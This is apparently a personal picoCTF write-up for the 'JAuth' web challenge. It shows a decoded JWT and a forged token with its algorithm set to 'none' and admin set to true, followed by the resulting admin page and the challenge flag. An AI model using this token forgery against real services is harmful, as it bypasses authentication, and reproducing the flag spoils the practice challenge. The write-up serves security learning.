 # picoGym Level 236: JAuth
Source: https://play.picoctf.org/practice/challenge/236

## Goal
Most web application developers use third party components without testing their security. Some of the past affected companies are:<br>
- Equifax (a US credit bureau organization)
	- breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach
	- unpatched version of Drupal CMS used
- VerticalScope (internet media company)
	- outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?<br>
The website is running here. Can you become an admin?<br>
You can login as test with the password Test123! to get started.<br>
http://saturn.picoctf.net:62178/

## What I learned
```
Always use secret key w/ JWT Token
```

![alt text](../static/pico236.png "pico236")

## Solution
```
https://webshell.picoctf.org/

# Login w/ test account and use CyberChef
https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=ZXlKMGVYQWlPaUpLVjFRaUxDSmhiR2NpT2lKSVV6STFOaUo5LmV5SmhkWFJvSWpveE56VTJPVE0xT0Rnek5URTJMQ0poWjJWdWRDSTZJazF2ZW1sc2JHRXZOUzR3SUNoWGFXNWtiM2R6SUU1VUlERXdMakE3SUZkcGJqWTBPeUI0TmpRcElFRndjR3hsVjJWaVMybDBMelV6Tnk0ek5pQW9TMGhVVFV3c0lHeHBhMlVnUjJWamEyOHBJRU5vY205dFpTOHhNemd1TUM0d0xqQWdVMkZtWVhKcEx6VXpOeTR6TmlCRlpHY3ZNVE00TGpBdU1DNHdJaXdpY205c1pTSTZJblZ6WlhJaUxDSnBZWFFpT2pFM05UWTVNelU0T0RSOS41QTZYWldad1JEWWxkVE9vVmZZRWdFTUtCMUMteUN1ZF9IY0lQS052NEdF ⌨️
	HS256 algorithm used

# Change user to admin and don't use secret key
# Note: Select None on algorithm
eyJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTc1NzAyMjgzOH0. 👀

<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta
      name="viewport"
      content="width=device-width, initial-scale=1, shrink-to-fit=no"
    />
    <title>Our Bank</title>
    <link
      rel="stylesheet"
      href="https://maxcdn.bootstrapcdn.com/bootswatch/3.2.0/united/bootstrap.min.css"
    />
    <style type="text/css">
      .form-signin {
        width: 100%;
        max-width: 420px;
        padding: 15px;
        margin: auto;
      }
    </style>
  </head>
  <body>
    <div class="text-center">
      <h1>Hello, admin! You have logged in as admin!</h1> 👀
    </div>
    <div class="text-center"><span>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</span></div> 🔐
    <form class="form-signin" action="/logout" method="GET">
      <div class="text-center mb-4">
        <input type="submit" class="btn btn-danger" value="logout" />
      </div>
    </form>
  </body>
</html>
```

## Flag
picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}

## Continue
[Continue](./picoGym0152.md)